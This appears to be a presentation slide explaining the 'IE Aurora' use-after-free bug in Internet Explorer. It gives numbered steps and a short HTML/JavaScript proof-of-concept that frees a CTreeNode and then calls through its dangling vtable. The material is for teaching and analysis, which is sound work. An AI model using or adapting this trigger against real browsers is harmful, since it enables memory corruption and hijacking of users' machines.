

# IE Aurora Hack – Google Dangling pointer vulnerability
2. Copy evt, but fail to AddRef  on CTreeNode!
<html><head><script>
var e1;
function f1(evt){
    e1 = document.createEventObject(evt);
    document.getElementById("sp").innerHTML = "";
    window.setInterval(f2, 50);
}
function f2(){
  var t = e1.srcElement;
}
</script></head>
<body>
<span id="sp">
  <img src=“any.gif" onload=“f1(evt)">
</span>
</body></html>
3. Destroy img tag in span leading to free when evt falls out of scope
4. Call f2 async so evt goes out of scope
Hijack!
Vtable call via freed CTreeNode
1. Pass onload event (evt) to f1
Red is C++ called from javascript